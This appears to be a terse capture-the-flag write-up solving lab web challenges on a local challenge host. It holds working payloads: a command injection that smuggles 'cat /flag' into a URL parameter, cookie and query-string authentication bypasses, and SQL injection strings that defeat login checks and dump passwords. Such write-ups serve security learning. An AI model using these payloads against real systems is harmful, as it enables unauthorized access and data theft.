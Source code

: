 # CMDi 6
The semicolumn in bash play the same role with a newline('\n').

`curl http://challenge.localhost:80/quest?dir=.%0acat%20/flag`

# Authentication Bypass 1
This is writeup `curl http://challenge.localhost:80/?session_user=admin`.

I tried SQL injection but falled. This is some lines of source code.
```python
user = db.execute("SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
```
This line cannot be SQL injected.

# Authentication Bypass 2
```python
import requests as req
url = 'http://challenge.localhost:80'
cookie= {"session_user": "admin"}
print(req.get(url, cookies=cookie).text)
```
Another writeup is `curl http://challenge.localhost:80 -H "Cookie: session_user=admin"`.

# SQLi 1
```python
import requests as req
s = req.Session()

url='http://challenge.localhost:80/login-page'
d = {'user-alias': 'admin', 'pin': '1 OR 1=1'}
print(s.post(url, data=d).text)
```

# SQLi 2
```python
import requests as req
s = req.Session()

url='http://challenge.localhost:80/authenticate'
d = {'profile-name': 'admin', 'pass': "' OR username='admin' --"}
print(s.post(url, data=d).text)
```

# SQLi 3
`curl "http://challenge.localhost:80/?query=admin\"%20UNION%20SELECT%20password%20FROM%20users%20WHERE%20username=\"admin"`
